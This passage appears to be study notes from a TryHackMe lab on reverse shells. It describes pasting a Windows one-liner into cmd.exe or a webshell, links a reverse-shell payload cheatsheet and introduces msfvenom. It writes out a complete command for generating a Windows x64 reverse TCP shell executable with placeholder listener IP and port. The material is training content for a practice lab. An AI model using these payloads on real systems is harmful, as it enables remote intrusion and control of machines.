 In order to use this, we need to replace `<IP>` and `<port>` with an appropriate IP and choice of port. It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a webshell) and executed, resulting in a reverse shell:

![](./img/Pasted%20image%2020230904123900.png)

---

For other common reverse shell payloads, [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) is a repository containing a wide range of shell codes (usually in one-liner format for copying and pasting), in many different languages. It is well worth reading through the linked page to see what's available.

# msfvenom

Msfvenom: the one-stop-shop for all things payload related.

Part of the Metasploit framework, msfvenom is used to generate code for primarily reverse and bind shells. It is used extensively in lower-level exploit development to generate hexadecimal shellcode when developing something like a Buffer Overflow exploit; however, it can also be used to generate payloads in various formats (e.g. `.exe`, `.aspx`, `.war`, `.py`). It's this latter function that we will be making use of in this room. There is more to teach about msfvenom than could ever be fit into a single room, let alone a single task, so the following information will be a brief introduction to the concepts that will prove useful for this room.  

The standard syntax for msfvenom is as follows:

`msfvenom -p <PAYLOAD> <OPTIONS>`  

For example, to generate a Windows x64 Reverse Shell in an exe format, we could use:

`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`

![](./img/Pasted%20image%2020230904125112.png)

Here we are using a payload and four options:

- `-f <format>`
	- Specifies the output format. In this case that is an executable (exe)
- `-o <file>`
	- The output location and filename for the generated payload.
- `LHOST=<IP>`
	- Specifies the IP to connect back to. When using TryHackMe, this will be your [tun0 IP address](http://10.10.10.10). If you cannot load the link then you are not [connected to the VPN](https://tryhackme.com/room/welcome).
- `LPORT=<port>`
	- The port on the local machine to connect back to. This can be anything between 0 and 65535 that isn't already in use; however, ports below 1024 are restricted and require a listener running with root privileges.  

---

## Staged vs Stageless
